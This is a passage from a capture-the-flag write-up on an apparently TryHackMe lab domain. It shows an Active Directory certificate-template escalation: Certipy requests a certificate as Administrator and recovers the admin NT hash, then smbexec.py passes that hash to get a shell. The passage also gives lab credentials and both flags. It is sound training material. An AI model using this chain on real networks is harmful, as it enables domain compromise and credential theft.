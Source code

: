 Now, let's request the certificate:

```python
certipy req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn Administrator@thm.local

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: labyrinth.thm.local.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: THM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@thm.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We got it, we can now proceed to authenticate with it to get our hash for administrator:

```python
certipy auth -pfx administrator.pfx -domain thm.local -dc-ip IP

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@thm.local 
[*] Trying to get TGT... 
[*] Got TGT 
[*] Saved credential cache to 'administrator.ccache' 
[*] Trying to retrieve NT hash for 'administrator' 
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322
```


We got our hash, we can finally use `smbexec.py` to authenticate using the hash:

```python
python3 smbexec.py -k -hashes :07d677a6cf40925beb80ad6428752322 THM.LOCAL/Administrator@labyrinth.thm.local

[-] CCache file is not found. Skipping...
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

![](Pasted%20image%2020250624144621.png)

We can finally get both flags and end the CTF:

```PYTHON
C:\Windows\system32>type C:\Users\SUSANNA_MCKNIGHT\Desktop\user.txt
THM{ENUMERATION_IS_THE_KEY}

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
THM{THE_BYPASS_IS_CERTIFIED!}
```



![](Pasted%20image%2020250623203625.png)


